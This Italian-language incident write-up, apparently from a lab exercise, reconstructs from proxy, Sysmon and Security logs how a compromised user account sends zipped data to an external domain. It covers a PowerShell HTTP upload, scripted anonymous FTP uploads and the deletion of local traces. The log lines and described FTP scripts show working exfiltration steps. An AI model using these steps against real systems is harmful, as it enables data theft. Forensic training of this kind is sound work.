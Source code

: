 


# Logs 
Network & Endpoint Logs

![ ](../image/7a.png)

![ ](../image/7b.png)

# Ricognizione
```
└── 11:05:03 PROXY01 ... suspicious GET http://external-storage[.]cc/storage/credentials[.]txt (da 10.20.14.55)
```
Alle 11:05:03 il primo passo di ricognizione, un client interno (IP 10.20.14.55) contatta tramite Proxy01 il dominio sospetto external-storage.cc, chiedendo un file chiamato `credentials.txt`. Questo tipo di richiesta serve all’attaccante per verificare se il server C2 è attivo e pronto a ricevere dati. È come un “ping” iniziale per stabilire contatto.
Subito dopo inizia la vera esfiltrazione dei dati.

# Metodo di Esfiltrazione 1 ( PowerShell HTTP PUT)
```
└── 11:05:25 powershell.exe (User a.wilson, parent=explorer.exe) ... PUT data.zip to external-storage.cc
     └── 11:05:27 FileCreate ... data.zip scritto (SHA256=A3B1C…)
     └── 11:05:35 TCP connect ... 198.51.100.12:80
     └── 11:05:37 PROXY01 POST ... data.zip 65 KB to external-storage.cc
     └── 11:05:52 cmd.exe cleanup ... cancella data.zip (child of powershell)
```
La prima tecnica di esfiltrazione è stata realizzata con PowerShell, sfruttando la capacità del comando di interagire con server remoti. Alle 11:05:25, powershell.exe (PID 6120, utente CORP\a.wilson, avviato da explorer.exe) ha tentato di caricare un file chiamato `data.zip` sul dominio `external-storage.cc` utilizzando il metodo HTTP PUT. In realtà, in quel preciso istante, il file non esisteva ancora... il comando ha solo avviato il processo di preparazione.

Solo due secondi dopo, alle 11:05:27, Sysmon registra la creazione del file data.zip, completo di hash SHA256, segno che i dati interni sono stati raccolti e compressi in un archivio pronto per la trasmissione. Poi, lo stesso processo apre una connessione TCP verso l’indirizzo remoto `198.51.100.12:80`, e poco dopo il proxy aziendale (PROXY01) conferma un’operazione di HTTP POST da 65 KB diretta al dominio esterno. Questo rappresenta l’effettiva uscita dei dati dall’ambiente interno.

Infine, alle 11:05:52, un nuovo processo cmd.exe, generato come figlio di powershell.exe, esegue un comando di eliminazione di data.zip dal disco. Chiaramente è un passo di cleanup, volto a cancellare tracce locali e rendere più difficile l’analisi forense.


# Metodo di Esfiltrazione 2  (Client FTP)
```
└── 11:05:41 ftp.exe -s:ftp_commands.txt external-storage.cc (spawned post-cleanup)
     └── 11:05:42 / 11:05:45 ... handle + accesso a data.zip
     └── 11:05:49 TCP connect ... external-storage.cc:21
     └── 11:06:25 FileCreate ... ftp_commands.txt (istruzioni FTP)
     └── 11:06:33 cmd.exe ... scrive batch script FTP (parent=ftp.exe)
```
Alle 11:05:41 viene eseguito il process ftp.exe con il parametro `-s:ftp_commands.txt`. Questo significa che l’attaccante non digita i comandi a mano, ma usa un file di script che contiene tutte le istruzioni necessarie. Così l’FTP lavora in automatico e silenziosamente.
Subito dopo, tra le 11:05:42 e le 11:05:45, i log di sicurezza mostrano che ftp.exe ha richiesto un handle e ha letto il file data.zip. In pratica, sta aprendo il file per prepararlo al trasferimento. 

Poi Sysmon registra una connessione TCP verso external-storage.cc sulla porta 21, che è la porta standard del protocollo FTP. Questo conferma che la sessione FTP è stata effettivamente stabilita con il server esterno.
11:06:25, viene creato un nuovo file `ftp_commands.txt`, questa volta generato automaticamente. È uno script con comandi come open `external-storage.cc, user anon, put data.zip, e infine bye`. Questo tipo di file serve a dire al client FTP di aprire la connessione, accedere con utente anonimo e caricare il file senza interazione umana.

11:06:33, infatti, un nuovo cmd.exe scrive un secondo script FTP, stavolta con istruzioni per caricare anche `data2.zip`. Questo mostra come l’attaccante stia usando più tentativi, diversificando i metodi di esfiltrazione per aumentare le chance di successo.

# Metodo di Esfiltrazione 3 ( Automazione Batch / Second File)

```
└── 11:06:33 cmd.exe (batch automation) 
     └── 11:06:37 FileCreate ... data2.zip
     └── 11:06:41 TCP connect ... external-storage.cc:21
     └── 11:06:45 FileCreate ... data2.zip confermato (secondo metodo di esfiltrazione)
     └── 11:06:59 RegistryValueSet ... HKCU\Software\Corp\LastExfil = external-storage.cc (execution marker)
```
Alle 11:06:37 i log mostrano la creazione di un nuovo file chiamato data2.zip. l’attaccante non si limita a un solo file, ma prepara un ulteriore archivio da inviare al server esterno. Subito dopo, il processo cmd.exe stabilisce una connessione TCP verso il dominio `external-storage.cc ` utilizzando la porta 21, che è quella standard del protocollo FTP. Questo significa che il file appena creato è destinato ad essere trasferito tramite una sessione FTP.

Un elemento interessante è che poco prima, tra le 11:06:25 e le 11:06:33, viene creato un nuovo file `ftp_commands.txt`. Non si tratta di un file scritto manualmente, ma di uno script generato direttamente da cmd.exe usando comandi `echo`. Dentro questo script ci sono le istruzioni per aprire la connessione FTP, accedere con utente anonimo, caricare il file data2.zip e infine chiudere la sessione con un comando di uscita. In questo modo l’attaccante non deve digitare nulla, tutto avviene in automatico e silenziosamente.

Alle 11:06:45, i log segnalano nuovamente la creazione di data2.zip, probabilmente perché il file è stato copiato o riscritto durante il processo di upload. Questo mostra che l’attaccante ha predisposto un meccanismo ridondante per assicurarsi che il file fosse effettivamente pronto al trasferimento. 

Infine, Sysmon registra una modifica al Registro di Windows...la chiave `HKCU\Software\Corp\LastExfil` viene aggiornata con il valore `“2025-08-22T11:05:37 external-storage.cc”`. significa che l’attaccante tiene traccia delle esfiltrazioni completate, lasciando un piccolo segno interno che funge da checkpoint per futuri attacchi o per evitare duplicazioni.


# 


```
 └── 11:06:08 Security 4634 ... User a.wilson logoff
 └── 11:10:05 Security 4625 ... Tentativo fallito di logon (possible account lockout)
```
Alla fine delle attività di esfiltrazione, i log mostrano la chiusura della sessione dell’utente. Alle 11:06:08, l’account a.wilson effettua un logoff interattivo dal portatile WIN10-LAPTOP, segnalato come Security EventID 4634. indica che l’attaccante, o lo script usato, ha terminato la sessione probabilmente per nascondere meglio le tracce o per chiudere l’attività senza lasciare processi attivi in memoria. Poco dopo, alle 11:10:05, compare un tentativo di accesso fallito con lo stesso account, CORP\a.wilson, che genera un Security EventID 4625. Questo evento potrebbe indicare che l’account è stato bloccato dopo gli abusi.


